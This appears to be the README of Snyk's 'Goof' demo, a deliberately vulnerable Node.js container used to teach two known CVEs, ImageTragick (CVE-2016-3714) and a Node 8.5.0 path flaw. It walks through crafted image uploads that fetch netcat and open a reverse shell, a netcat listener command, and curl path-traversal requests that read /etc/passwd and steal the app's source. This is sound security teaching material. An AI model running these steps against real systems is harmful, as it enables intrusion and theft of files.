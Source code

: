 # Goof - Snyk's application demo for breaking into containers

Purpose of this repository is to demonstrate a Node.js web application that is packaged as a container, and shows container-level vulnerabilities that result in breaking into the container.

Vulnerabilities and exploitation is:
- The vanilla Node.js base image `node:6.1.0-wheezy` ships with a vulnerable image of ImageMagick, specifically, ImageTragick CVE-2016-3714.
- In attempt to move away from the above base image, a user may turn into the latest Node.js 8 version, at the time being `8.5.0`. Except, there's a vulnerability in the Node.js 8.5.0 runtime - CVE-2017-14849.

Note: "at the time" is a fictional story for the purpose of a presentation/demo.

# Exploits

## ImageTragick CVE-2016-3714 - Image conversion utility leading to remote command execution

This exploit and application flow demonstrates how a high severity ImageMagic [CVE-2016-3714](https://snyk.io/vuln/SNYK-LINUX-IMAGEMAGICK-121787) improper input validation leads to remote command execution via "ImageTragick" vulnerability.

The exploit makes use of specially crafted image files which bypass the parsing functionality within the imagemagick utility that have further [whitelisted commands](https://github.com/ImageMagick/ImageMagick/blob/e93e339c0a44cec16c08d78241f7aa3754485004/MagickCore/delegate.c#L99) associated with instructions inside the image file. Escaping from the expected input context allows to inject system commands.

This repo includes a remote command execution exploit with a netcat download to achieve reverse shell in distributions that do not bundle netcat by default (such as Debian wheezy) and is based on proof-of-concepts exploits found in https://github.com/ImageTragick/PoCs.

### Install and Run

#### Requirements

- [Node.js](http://nodejs.org) 10 and npm
- The [serve](https://www.npmjs.com/package/serve) npm module installed globally to serve static files, or any other static files HTTP server (`npm install --global serve`)
- [Docker](https://www.docker.com)
- [netcat](https://catonmat.net/unix-utilities-netcat) networking unix utility to serve as a general-purpose network communication

#### Setup

- Clone this repository
- Build the docker image:

  ```
  docker build . -t rce
  ```

- Run the docker image and map the port 3112 from the container to the docker host:

  ```
  docker run --rm -p 3112:3112 --name rce rce
  ```

  Expected input should show the Node.js server has binded to the network interface successfully:

  ```
  npm info it worked if it ends with ok
  npm info using npm@3.8.6
  npm info using node@v6.1.0
  npm info lifecycle goof-container-breaking-in@1.0.0~prestart: goof-container-breaking-in@1.0.0
  npm info lifecycle goof-container-breaking-in@1.0.0~start: goof-container-breaking-in@1.0.0

  > goof-container-breaking-in@1.0.0 start /usr/src/goof
  > node index.js

  [1565780917497] INFO  (17 on e2b4f76a9de6): Server listening at http://0.0.0.0:3112
  ```

### ImageTragick Demo

- Spin up the local static server to serve the netcat package:

  ```
  cd exploits
  serve .
  ```

- Browse to `http://localhost:3112/public`, choose a picture to upload and click `resize` to assert the functionality is as expected - you should be redirected to the `result.html` page that shows the scaled image.

- Upload `exploits/rce1.jpg` provided in this repository and then connect to the running container to show that a new empty file called `rce1` was created on `/usr/src/goof`. Print the contents of the `exploits/rce1.jpg` file to show the exploit payload.

  Connecting to the running docker container:

  ```
  docker exec -it rce /bin/bash
  ```

- Run netcat in listening mode and wait for incoming connections:

  ```
  nc -lnv 3131
  ```

- Upload `exploits/rce2.jpg` provided in this repository, wait about 10-20 seconds for the netcat utility to be downloaded from the local static file server, compiled and executed to then create a reverse shell that allows you to interact with in the local netcat listening prompt


## Node.js 8.5.0 Insufficient Validation vulnerability

This exploit demonstrates a [path validation issue](https://snyk.io/vuln/SNYK-UPSTREAM-NODE-72352) found in the core `path` module for Node.js 8.5.0, which affects community modules, such as `send`, and can lead to path traversal vulnerability.

### Install and Run

Update the Dockerfile to use a 8.5.0 version of Node.js, such as:

```
FROM node:8.5.0
```

Rebuild the image, and run it:

```sh
docker build . -t rce --no-cache
docker run --rm -p 3112:3112 --name rce rce
```

#### Path Traversal Demo

Send the following request:

```sh
curl "http://localhost:3112/public/%2e%2e/%2e%2e/%2e%2e/foo/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

which retrieves the `/etc/passwd` file from inside the Docker container.

You can also just steal the source code for this application:

```sh
curl "http://localhost:3112/public/%2e%2e/%2e%2e/%2e%2e/foo/%2e%2e/%2e%2e/%2e%2e/%2e%2e/usr/src/goof/server.js"
```